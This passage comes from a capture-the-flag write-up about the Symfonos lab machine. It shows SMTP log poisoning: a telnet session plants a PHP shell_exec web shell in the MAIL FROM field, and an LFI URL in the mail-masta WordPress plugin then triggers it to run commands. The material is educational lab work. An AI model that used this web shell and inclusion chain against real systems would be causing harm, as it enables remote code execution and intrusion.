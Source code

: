 *   We must now find a way to execute commands using this vulnerability.

*   Use Log Injection with SMTP

*   Add PHP code in the logs so it is executed when retrieved by the script that is being exploited.

*   I have never done this before, but it worked:

```
crazyeights@es-base:~$ telnet 192.168.56.132 25
Trying 192.168.56.132...
Connected to 192.168.56.132.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO dummy
250 symfonos.localdomain
MAIL FROM: "dummy <?php echo shell_exec($_GET['cmd']);?>"
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>

data>
.
250 2.0.0 Ok: queued as 736B940698
```

If we open /var/mail/helios we can see the message:

![](/assets/images/21/s5.png)

Go helios's mail log:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
```

We can now see the command results in the logs:

![](/assets/images/21/s4.png)
